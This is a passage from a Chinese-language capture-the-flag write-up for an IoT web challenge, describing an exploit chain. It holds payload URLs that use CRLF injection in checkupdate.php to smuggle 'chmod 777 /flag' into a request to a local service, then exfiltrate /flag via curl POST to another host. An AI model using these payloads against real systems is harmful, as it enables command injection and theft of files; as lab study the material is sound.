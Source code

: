 #### （4）利用链
通过上述方法，我先通过curl -X发送到9998端口执行`chmod 777 /flag`，然后在通过curl读取flag。   
修改权限：   
`http://20.20.11.14/checkupdate.php?url=%0d%0acurl http://127.0.0.1:9998/ -X "12P4ss1:whoami|whomai|whomai|whoami|chmod 777 /flag|"`
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/xhlj-2020-iot/images/iot_web_1_chmod.png)   
读取flag   
`http://20.20.11.14/checkupdate.php?url=%0d%0acurl http://20.20.11.13:8000/ -X POST --data @/flag`